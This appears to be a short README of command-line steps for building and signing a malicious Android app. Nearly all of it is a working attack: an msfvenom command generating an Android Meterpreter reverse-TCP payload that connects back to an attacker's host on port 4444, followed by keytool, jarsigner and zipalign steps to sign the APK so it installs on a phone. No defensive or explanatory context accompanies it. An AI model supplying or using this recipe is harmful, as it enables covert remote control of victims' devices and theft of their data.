 # kali-ms


msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.1  LPORT=4444 R > reverse_tcp.apk


## keytool

keytool -genkey -V -keystore key.keystore -alias krnick -keyalg RSA -keysize 2048 -validity 1000


## check your key content

keytool -list -keystore key.keystore

## Sign

jarsigner -verbose -sigalg SHA1withRSA -digestalg SHA1 -keystore key.keystore reverse_tcp.apk krnick

## check signing

jarsigner -verify -verbose -certs reverse_tcp.apk

## optimization

zipalign -v 4 reverse_tcp.apk singed_reverse_tcp.apk
